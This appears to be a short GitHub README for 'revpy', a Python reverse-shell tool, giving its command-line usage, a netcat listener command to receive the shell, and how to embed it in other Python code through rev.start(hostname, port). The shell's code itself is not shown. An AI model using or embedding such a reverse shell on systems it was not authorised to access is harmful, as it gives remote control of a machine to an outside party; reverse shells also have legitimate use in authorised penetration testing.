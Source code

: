 # revpy
Primative reverse shell written in Python.

# usage
python rev.py <hostname> <port>

# how to run a server
run "netcat -lp <port>"

# how to import and use in your own python code
import <location of your rev.py file>
...
rev.start(hostname, port)
